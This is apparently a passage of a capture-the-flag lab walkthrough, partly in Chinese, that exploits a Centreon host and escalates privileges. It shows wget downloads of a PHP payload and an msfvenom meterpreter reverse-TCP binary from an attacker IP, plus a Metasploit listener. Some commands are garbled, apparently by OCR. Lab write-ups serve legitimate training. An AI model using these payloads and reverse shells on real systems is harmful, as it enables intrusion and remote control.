 
```
ls -al
-rw------- 1 shelby   shelby       33 Jul  4 01:22 /home/shelby/user.txt
-rw-r--r-- 1 www-data www-data   4089 Nov 18 06:53 /usr/local/centreon/filesGeneration/engine/1/centengine.DEBUG

```
---

wget http://10.10.14.18/w.php -P /tmp
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/2.PNG)

---

```
/bin/?s /tmp"
w.php

```
---


```
chm\od +x /tmp/w.php

mode of &#039;/tmp/w.php&#039; changed from 0644 (rw-r--r--) to 0755 (rwxr-xr-x)

```
---
./centreon.py ip port "php /tmp/w.php"
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/3.PNG)

## 提权
```
kali生成恶意载荷
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.10.14.18 LPORT=445 -f elf -o w.elf
```
shell执行下载：

```
python -c 'import pty;pty.spawn("/bin/bash")'
wget http://10.10.14.18/w.elf -P /tmp
 chmod +x w.elf

```
kali执行监听：

```
msfconsole
handler -H 10.10.14.18 -P 445 -p linux/x86/meterpreter/reverse_tcp

wget http://10.10.14.18/w.elf -P /tmp

```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/4.PNG)
